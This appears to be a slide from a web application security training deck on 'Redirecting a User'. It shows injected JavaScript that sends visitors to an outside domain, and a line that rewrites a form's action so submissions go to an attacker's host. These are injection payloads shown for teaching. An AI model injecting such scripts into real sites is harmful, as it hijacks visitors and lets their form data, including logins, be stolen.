

# Redirecting a User
We can also inject code to redirect a user
<script language="javascript">
window.location.href = "http://professionallyevil.com" ;
</script>
We can also change the form action to have it submit to us
document.forms[1].action="http://www.PEWAPT.org/"